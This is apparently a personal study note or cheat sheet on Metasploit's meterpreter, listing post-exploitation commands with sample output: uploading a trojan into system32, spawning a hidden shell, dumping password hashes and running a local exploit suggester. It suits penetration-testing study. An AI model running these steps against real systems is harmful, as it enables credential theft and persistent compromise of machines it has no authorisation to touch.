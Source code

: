 ```yaml
---
creation date: December 19th 2022
last modified date: December 19th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[meterpreter]]  
___

## Description:  

### useful commands

```
meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM

meterpreter >

meterpreter > download c:\\boot.ini

[*] downloading: c:\boot.ini -> c:\boot.ini

[*] downloaded : c:\boot.ini -> c:\boot.ini/boot.ini

meterpreter >

meterpreter > upload evil_trojan.exe c:\\windows\\system32

[*] uploading  : evil_trojan.exe -> c:\windows\system32

[*] uploaded   : evil_trojan.exe -> c:\windows\system32\evil_trojan.exe

meterpreter >

meterpreter > cat

Usage: cat file

meterpreter > edit edit.txt

meterpreter > search -f autoexec.bat

Found 1 result...

    c:\AUTOEXEC.BAT

meterpreter > execute -f cmd.exe -i -H

Process 38320 created.

Channel 1 created.

Microsoft Windows XP [Version 5.1.2600]

(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>

```
### hashdump

```
meterpreter > run post/windows/gather/hashdump

shell to drop into a shell and exit to get back into the meterpreter session

meterpreter > backgorund

use post/multi/recon/local_exploit_suggester

set session 1

```

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: December 19th 2022 (01:14 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
